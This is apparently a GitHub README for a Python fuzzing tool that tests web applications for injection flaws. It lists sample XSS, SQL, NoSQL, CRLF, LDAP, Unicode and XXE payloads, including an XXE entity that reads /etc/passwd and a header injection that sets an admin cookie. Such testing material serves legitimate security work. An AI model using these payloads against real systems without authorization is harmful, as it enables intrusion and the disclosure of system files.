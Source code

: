 # InjectFuzzingTool
## Beta Version
This tool is a Python-based script designed for testing various injection vulnerabilities in web applications. It includes modules for testing XSS, SQL injection, NoSQL injection, OS command injection, CRLF injection, LDAP injection, XPath injection, XSLT injection, XXE vulnerabilities, and more. This tool is based on all injection vulnerabilities in hacktricks.

## Features
- **Cross-Site Scripting (XSS)**
- **SQL Injection**
- **NoSQL Injection**
- **OS Command Injection**
- **HTTP Header Injection**
- **LDAP Injection**
- **CRLF Injection**
- **Unicode Injection**
- **XPath Injection**
- **XSLT Injection**
- **XML External Entity (XXE) Injection**

## Requirements
- Python 3.x
- Libraries:
  - requests
  - json
  - ldap3 
  - lxml
  

Install the required dependencies using:
```bash
pip install -r requirements.txt
```

## Usage
Run the script with the target URL as an argument:
```bash

python fuzzing.py <URL> or python fuzzing.py <URL> [username_field]  [password_field] [query_field]

```

### Example
```bash
python fuzzing.py https://example.com
```

## Payloads
This tool uses predefined payloads for various injection types. Below are some examples:

### XSS Payloads
```html
<script>alert('XSS');</script>
<img src=x onerror=alert('XSS')>
```

### SQL Injection Payloads
```sql
' OR '1'='1
1' UNION SELECT NULL, NULL--
```

### NoSQL Injection Payloads
```json
{ "username": { "$ne": "" } }
{ "username": "admin", "password": { "$ne": "" } }
```

### CRLF Injection Payloads
```text
%0d%0aSet-Cookie: admin=true
%0d%0aContent-Length: 0%0d%0aInjected-Header: test
```

### LDAP Injection Payloads
```ldap
*)(&(objectClass=*))
*)|(&(objectCategory=person)(objectClass=user))
```

### Unicode Injection Payloads
```text
%u0027
%u003Cscript%u003Ealert(1)%u003C/script%u003E
```

### XXE Payload
```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

## Functions

### `fuzz(url, params=None, payloads=None)`
Tests a given URL with payloads to detect general vulnerabilities.

### `test_nosql_injection(url)`
Tests for NoSQL injection vulnerabilities using JSON payloads.

### `test_csti(url)`
Tests for Server-Side Template Injection (CSTI).

### `test_header_injection(url, headers)`
Tests HTTP header injection by modifying headers with payloads.

### `test_ldap_injection(server, base_dn)`
Tests LDAP injection vulnerabilities.

### `test_json_injection(url, base_data)`
Tests JSON injection vulnerabilities by modifying JSON request bodies.

### `test_crlf_injection(url, param)`
Tests CRLF injection vulnerabilities by appending payloads to query parameters.

### `test_unicode_injection(url, param)`
Tests Unicode-based injection vulnerabilities.

### `scrape_xml(target_url)`
Fetches and parses XML data from the target URL.

### `test_xpath_injection(xml_data)`
Tests XPath injection vulnerabilities using XPath payloads.

### `test_xslt_injection(xml_data)`
Tests XSLT injection vulnerabilities using crafted XSLT payloads.

### `test_xxe(xml_data)`
Tests XXE vulnerabilities by processing XML with external entity references.

## Notes
- Ensure you have proper authorization before testing a target system.
- Use responsibly and only for ethical penetration testing.

## License
This tool is open-source and available under the MIT License. Feel free to use and modify it for your testing needs.

